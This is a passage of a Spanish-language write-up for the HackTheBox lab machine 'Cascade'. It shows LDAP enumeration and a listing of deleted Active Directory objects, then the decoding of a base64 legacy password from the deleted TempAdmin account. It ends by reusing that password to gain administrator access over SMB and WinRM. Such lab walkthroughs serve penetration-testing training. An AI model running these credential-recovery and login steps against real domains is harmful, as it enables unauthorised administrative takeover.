┌──(kali㉿kali)-[~/htb/cascade]
└─$ ldapsearch -x -H ldap://10.129.8.2 -b "DC=cascade,DC=local" "(objectClass=user)" memberOf
# extended LDIF
#
# LDAPv3
# base <DC=cascade,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: memberOf 
#

# CascGuest, Users, cascade.local
dn: CN=CascGuest,CN=Users,DC=cascade,DC=local
memberOf: CN=Guests,CN=Builtin,DC=cascade,DC=local

# CASC-DC1, Domain Controllers, cascade.local
dn: CN=CASC-DC1,OU=Domain Controllers,DC=cascade,DC=local

# ArkSvc, Services, Users, UK, cascade.local
dn: CN=ArkSvc,OU=Services,OU=Users,OU=UK,DC=cascade,DC=local
memberOf: CN=Remote Management Users,OU=Groups,OU=UK,DC=cascade,DC=local
memberOf: CN=AD Recycle Bin,OU=Groups,OU=UK,DC=cascade,DC=local
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
~~~
Por lo que se es seguro que tenga permisos para restaurarlo, asi que se prueba el modulo `Get-ADObject` para revisar objetos eliminados, junto con sus propiedades para ver si se encuentra el usuario `tempadmin`.
~~~powershell
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects -properties *

<----SNIP---->
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
~~~
Se logro ver varios objetos eliminados, pero el que se busca es `TempAdmin`, dentro de sus propiedades se puede ver que existe una llamada `cascadeLegacyPwd`, este es igual a la primera forma en que se consiguio credenciales en el servidor, al igual esta seguramente es la contraseña y debe estar en base64.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d                                                
baCT3r1aN00dles 
~~~
Como se vio en el archivo HTML que se encontro antes, mencionaba que el usuario `TempAdmin` tiene la misma credencial  que administrator, asi que se prueba su acceso al dominio.
~~~bash
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ sudo netexec smb 10.129.8.2 -u 'administrator' -p 'baCT3r1aN00dles'                  
SMB         10.129.8.2      445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.8.2      445    CASC-DC1         [+] cascade.local\administrator:baCT3r1aN00dles (Pwn3d!)
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Iniciando sesion con winrm y la contraseña obtenida se puede ver la root flag, que es el objetivo de la maquina.
~~~powershell
┌──(kali㉿kali)-[~/htb/cascade/content]
└─$ evil-winrm -i 10.129.8.2 -u 'administrator' -p 'baCT3r1aN00dles'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> type desktop/root.txt
<Encuentre su propio root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

